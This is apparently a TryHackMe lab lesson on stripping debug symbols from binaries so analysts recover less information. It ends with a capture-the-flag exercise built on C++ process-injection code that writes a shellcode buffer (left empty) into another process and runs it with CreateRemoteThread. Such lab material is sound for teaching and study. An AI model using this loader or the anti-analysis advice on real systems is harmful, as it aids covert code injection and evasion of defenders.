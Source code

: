 More minor aspects of a compiled binary, such as the compilation method, may not seem like a critical component, but they can lead to several advantages to assist an analyst. For example, if a program is compiled as a debug build, an analyst can obtain all the available global variables and other program information.

The compiler will include a symbol file when a program is compiled as a debug build. Symbols commonly aid in debugging a binary image and can contain global and local variables, function names, and entry points. Attackers must be aware of these possible problems to ensure proper compilation practices and that no information is leaked to an analyst.

Luckily for attackers, symbol files are easily removed through the compiler or after compilation. To remove symbols from a compiler like **Visual Studio**, we need to change the compilation target from `Debug` to `Release` or use a lighter-weight compiler like **mingw.**

If we need to remove symbols from a pre-compiled image, we can use the command-line utility: `strip`.

The aforementioned white paper: [Layered Obfuscation Taxonomy](https://cybersecurity.springeropen.com/articles/10.1186/s42400-020-00049-3), summarizes these practices well under the **code-element** layer’s **stripping redundant symbols** method.

Below is an example of using strip to remove the symbols from a binary compiled in **gcc** with debugging enabled.

Several other properties should be considered before actively using a tool, such as entropy or hash. These concepts are covered in task 5 of the [Signature Evasion room](https://tryhackme.com/room/signatureevasion).

---

Using the knowledge you have accrued throughout this task, remove any meaningful identifiers or debug information from the C++ source code below using the AttackBox or your own virtual machine.

Once adequately obfuscated and stripped compile the source code using `MingW32-G++` and submit it to the webserver at `http://MACHINE_IP/`.

Note: the file name must be `challenge-8.exe` to receive the flag.

```powershell
#include "windows.h"
#include <iostream>
#include <string>
using namespace std;

int main(int argc, char* argv[])
{
	unsigned char shellcode[] = "";

	HANDLE processHandle;
	HANDLE remoteThread;
	PVOID remoteBuffer;
	string leaked = "This was leaked in the strings";

	processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
	cout << "Handle obtained for" << processHandle;
	remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
	cout << "Buffer Created";
	WriteProcessMemory(processHandle, remoteBuffer, shellcode, sizeof shellcode, NULL);
	cout << "Process written with buffer" << remoteBuffer;
	remoteThread = CreateRemoteThread(processHandle, NULL, 0, (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);
	CloseHandle(processHandle);
	cout << "Closing handle" << processHandle;
	cout << leaked;

	return 0;
} 
```
